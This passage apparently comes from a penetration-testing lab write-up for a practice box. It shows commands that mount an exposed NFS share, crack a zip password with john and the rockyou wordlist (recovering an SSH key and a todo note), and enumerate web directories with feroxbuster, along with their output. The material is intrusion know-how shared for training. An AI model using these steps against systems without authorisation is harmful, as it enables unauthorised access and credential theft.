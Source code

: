 indeed, there are other services open. We discover a mountd port open! Lets try to mount it:

```bash
showmount -e 10.10.1.154
Export list for 10.10.1.154:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

mkdir /mnt/dev

mount -t nfs 10.10.1.154:/srv/nfs /mnt/dev
```

and lets visit the mounted directory. There we find an zip file titled, save.zip. Unzipping it by using the following command:

```bash
cp save.zip ~
unzip ~/save.zip
```

Since it prompts that its password protected, we try to crack it by using "john" and "zip2john":

```bash
zip2john save.zip >> hash
john hash -w=/usr/share/wordlists/rockyou.txt
```

The cracked password is: "java101". Now unzip the file:

```bash
unzip save.zip
password: java101
```

by doing that, we recieve an dodo.txt and a unknown id_rsa:

```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

a possible user is given "jp" but the ssh attempt failed. So lets keep on enumerating.

Looking back at the nmap scan, we also find a http server on port 8080:

"8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))".

![[Capstone Dev02.png]]

now lets enumerate its directory with feroxbuster yet again:

```bash
feroxbuster --url http://10.10.1.154:8080 -x php,html,txt
```

it reveals a directory called "dev":

```
301      GET        9l       28w      315c http://10.10.1.154:8080/dev => http://10.10.1.154:8080/dev/
200      GET     1159l     5822w    94454c http://10.10.1.154:8080/
200      GET     1159l     5822w    94482c http://10.10.1.154:8080/index.php
301      GET        9l       28w      321c http://10.10.1.154:8080/dev/files => http://10.10.1.154:8080/dev/files/
301      GET        9l       28w      322c http://10.10.1.154:8080/dev/config => http://10.10.1.154:8080/dev/config/
200      GET        4l        4w       32c http://10.10.1.154:8080/dev/pages/member.admin
301      GET        9l       28w      321c http://10.10.1.154:8080/dev/forms => http://10.10.1.154:8080/dev/forms/
```
